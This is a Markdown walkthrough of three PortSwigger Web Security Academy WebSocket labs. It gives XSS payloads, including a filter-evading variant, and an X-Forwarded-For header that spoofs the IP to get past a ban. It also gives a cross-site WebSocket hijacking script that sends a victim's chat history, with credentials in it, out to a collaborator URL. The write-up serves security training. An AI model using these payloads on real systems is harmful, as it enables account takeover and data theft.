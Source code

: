 <!-- omit in toc -->
# WebSockets

<!-- omit in toc -->
## Table of Contents

- [Manipulating WebSocket messages to exploit vulnerabilities](#manipulating-websocket-messages-to-exploit-vulnerabilities)
- [Manipulating the WebSocket handshake to exploit vulnerabilities](#manipulating-the-websocket-handshake-to-exploit-vulnerabilities)
- [Cross-site WebSocket hijacking](#cross-site-websocket-hijacking)

## Manipulating WebSocket messages to exploit vulnerabilities
Reference: https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities

<!-- omit in toc -->
## Quick Solution 
Intercept the WebSocket message and set the content to ``<img src=x onerror='alert(1)'>``.

<!-- omit in toc -->
## Solution 
1. Click "Live chat" and send a chat message. 
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Using your browser, send a new message containing a < character. In Burp Proxy, find the corresponding WebSocket message and observe that the < has been HTML-encoded by the client before sending.
4. Ensure that Burp Proxy is configured to intercept WebSocket messages, then send another chat message.
5. Edit the intercepted message to contain the following payload: ``<img src=1 onerror='alert(1)'>``
6. Observe that an alert is triggered in your browser. This will also happen in the support agent's browser. 

## Manipulating the WebSocket handshake to exploit vulnerabilities
Reference: https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities

<!-- omit in toc -->
## Quick Solution 
Intercept the WebSocket message and set the content to ``<img src=1 oNeRrOr=alert`1`>`` since there is an aggressive but flawed XSS filter (the solution says to also add the ``X-Forwarded-For: 1.1.1.1`` header to spoof the IP address).

<!-- omit in toc -->
## Solution 
1. Click "Live chat" and send a chat message.
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Right-click on the message and select "Send to Repeater".
4. Edit and resend the message containing a basic XSS payload, such as:
```
<img src=1 onerror='alert(1)'>
```
5. Observe that the attack has been blocked, and that your WebSocket connection has been terminated. 
6. Click "Reconnect", and observe that the connection attempt fails because your IP address has been banned.
7. Add the following header to the handshake request to spoof your IP address:
```
X-Forwarded-For: 1.1.1.1
```
8. Click "Connect" to successfully reconnect the WebSocket. 
9. Send a WebSocket message containing an obfuscated XSS payload, such as:
```
<img src=1 oNeRrOr=alert`1`> 
```

## Cross-site WebSocket hijacking
Reference: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab

<!-- omit in toc -->
## Quick Solution
in this lab a specific script must be created and put inside the **Exploit Server**. The Live Chat uses WebSockets without CSRF Tokens, so using the Exploit Server and the Burp Collaborator it is possible to exfiltrate the victim's data (look at the Solution for the exploit code).

<!-- omit in toc -->
## Solution
1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select "Copy URL".
6. In your browser, go to the exploit server and paste the following template into the "Body" section:
```
<script>
  var ws = new WebSocket('wss://your-websocket-url');
  ws.onopen = function() {
    ws.send("READY");
  };
  ws.onmessage = function(event) {
    fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
  };
</script>
```
7. Replace ``your-websocket-url`` with the URL from the WebSocket handshake (``your-lab-id.web-security-academy.net/chat``). Make sure you change the protocol from ``https://`` to ``wss://``. Replace ``your-collaborator-url`` with a payload generated by Burp Collaborator Client.
8. Click "View exploit".
9. Poll for interactions using Burp Collaborator client. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. Poll for interactions using Burp Collaborator client again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12. Use the exfiltrated credentials to log in to the victim user's account.